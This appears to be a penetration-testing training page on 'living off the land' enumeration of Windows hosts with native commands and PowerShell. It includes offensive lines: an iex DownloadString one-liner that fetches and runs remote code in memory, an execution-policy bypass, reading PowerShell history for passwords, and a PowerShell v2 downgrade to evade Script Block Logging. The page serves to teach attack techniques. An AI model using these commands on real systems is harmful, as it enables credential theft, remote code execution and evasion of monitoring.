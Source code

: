 ## Living Off the Land

This section will discuss several techniques for utilizing native Windows tools to perform our enumeration and then practice them from our Windows attack host. This can also be a more stealthy approach and may not create as many log entries and alerts as pulling tools into the network in previous sections. Most enterprise environments nowadays have some form of network monitoring and logging, including IDS/IPS, firewalls, and passive sensors and tools on top of their host-based defenses such as Windows Defender or enterprise EDR. Depending on the environment, they may also have tools that take a baseline of "normal" network traffic and look for anomalies. Because of this, our chances of getting caught go up exponentially when we start pulling tools into the environment from outside.

### Env Commands For Host & Network Recon

#### Basic Enumeration Commands

| Command                                            | Result                                                                 |
| -------------------------------------------------- | ---------------------------------------------------------------------- |
| hostname                                         | Prints the PC's Name                                                   |
| [System.Environment]::OSVersion.Version          | Prints out the OS version and revision level                           |
| wmic qfe get Caption,Description,HotFixID,InstalledOn | Prints the patches and hotfixes applied to the host                    |
| ipconfig /all                                    | Prints out network adapter state and configurations                    |
| set                                              | Displays a list of environment variables for the current session (ran from CMD-prompt) |
| echo %USERDOMAIN%                                | Displays the domain name to which the host belongs (ran from CMD-prompt) |
| echo %logonserver%                               | Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt) |


**Harnessing PowerShell**

| Cmd-Let                                                                                          | Description                                                                                                                                                                                                 |
| ------------------------------------------------------------------------------------------------ | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Get-Module`                                                                                     | Lists available modules loaded for use.                                                                                                                                                                    |
| `Get-ExecutionPolicy -List`                                                                      | Will print the execution policy settings for each scope on a host.                                                                                                                                         |
| `Set-ExecutionPolicy Bypass -Scope Process`                                                      | This will change the policy for our current process using the `-Scope` parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because it won’t be permanent. |
| `Get-ChildItem Env: \| ft Key,Value`                                                             | Return environment values such as key paths, users, computer information, etc.                                                                                                                             |
| `Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt`       | With this string, we can get the specified user's PowerShell history. This can be helpful since command history may contain passwords or point us to config files/scripts with credentials.                 |
| `powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL'); <follow-on commands>"` | Quick and easy way to download a file from the web using PowerShell and call it from memory.                                                                                                               |

````powershell
# Downgrade Powershell
> Get-host
> powershell.exe -version 2
````
With Script Block Logging enabled, we can see that whatever we type into the terminal gets sent to this log. If we downgrade to PowerShell V2, this will no longer function correctly. Our actions after will be masked since Script Block Logging does not work below PowerShell 3.0. Notice above in the logs that we can see the commands we issued during a normal shell session, but it stopped after starting a new PowerShell instance in version 2. Be aware that the action of issuing the command powershell.exe -version 2 within the PowerShell session will be logged.
